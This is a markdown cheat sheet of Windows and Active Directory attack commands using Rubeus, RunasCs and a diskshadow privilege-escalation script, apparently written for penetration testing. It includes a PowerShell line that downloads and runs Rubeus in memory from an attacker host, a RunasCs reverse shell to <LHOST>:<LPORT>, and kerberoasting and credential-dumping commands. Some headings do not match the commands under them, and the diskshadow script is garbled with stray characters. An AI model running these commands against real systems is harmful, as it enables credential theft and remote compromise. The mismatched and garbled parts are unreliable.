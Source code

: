 ```c
```

### Rubeus

> https://github.com/GhostPack/Rubeus

#### Overpass the Hash

```c
PS C:\> Rubeus.exe kerberoast /user:<USERNAME>
```

#### Pass the Hash

```c
PS C:\> .\Rubeus.exe asktgt /user:Administrator /certificate:7F052EB0D5D122CEF162FAE8233D6A0ED73ADA2E /getcredentials
```

#### .NET Reflection

**Example**

```c
$ base64 Rubeus.exe -w0 > <FILE>.txt
```

```c
PS C:\> $RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String((new-object net.webclient).downloadstring('http://<RHOST>/<FILE>.txt')))
```

```c
PS C:\> [Rubeus.Program]::MainString("kerberoast /creduser:<DOMAIN>\<USERNAME> /credpassword:<PASSWORD>")
```

### RunasCs

> https://github.com/antonioCoco/RunasCs

```c
C:\> ./RunasCs.exe -l 3 -d <DOMAIN> "<USERNAME>" '<PASSWORD>' 'C:\Users\<USERNAME>\Downloads\<FILE>.exe'
C:\> ./RunasCs.exe -d <DOMAIN> "<USERNAME>" '<PASSWORD>' cmd.exe -r <LHOST>:<LPORT>
```

### SeBackupPrivilege Privilege Escalation (diskshadow)

> https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug

#### Script for PowerShell Environment

```c
SET CONTEXT PERSISTENT NOWRITERSp
add volume c: alias foobarp
createp
expose %foobar% z:p
```
